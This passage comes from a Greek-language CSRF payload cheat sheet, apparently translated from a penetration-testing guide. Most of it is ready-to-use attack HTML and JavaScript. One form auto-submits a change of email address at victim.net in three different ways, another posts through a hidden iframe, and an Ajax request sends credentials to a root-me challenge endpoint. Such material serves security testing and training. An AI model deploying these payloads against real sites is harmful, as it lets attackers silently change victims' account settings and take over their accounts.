 ```html
<html>
<body>
<script>history.pushState('', '', '/')</script>
<form method="POST" action="https://victim.net/email/change-email" id="csrfform">
<input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" /> <!-- Way 1 to autosubmit -->
<input type="submit" value="Submit request" />
<img src=x onerror="csrfform.submit();" /> <!-- Way 2 to autosubmit -->
</form>
<script>
document.forms[0].submit(); //Way 3 to autosubmit
</script>
</body>
</html>
```
### Αίτημα POST φόρμας μέσω iframe
```html
<!--
The request is sent through the iframe withuot reloading the page
-->
<html>
<body>
<iframe style="display:none" name="csrfframe"></iframe>
<form method="POST" action="/change-email" id="csrfform" target="csrfframe">
<input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" />
<input type="submit" value="Submit request" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```
### **Αίτημα Ajax POST**
```html
<script>
var xh;
if (window.XMLHttpRequest)
{// code for IE7+, Firefox, Chrome, Opera, Safari
xh=new XMLHttpRequest();
}
else
{// code for IE6, IE5
xh=new ActiveXObject("Microsoft.XMLHTTP");
}
xh.withCredentials = true;
xh.open("POST","http://challenge01.root-me.org/web-client/ch22/?action=profile");
xh.setRequestHeader('Content-type', 'application/x-www-form-urlencoded'); //to send proper header info (optional, but good to have as it may sometimes not work without this)
xh.send("username=abcd&status=on");
</script>

<script>
//JQuery version
$.ajax({
type: "POST",
url: "https://google.com",
data: "param=value&param2=value2"
})
</script>
```
### multipart/form-data POST αίτημα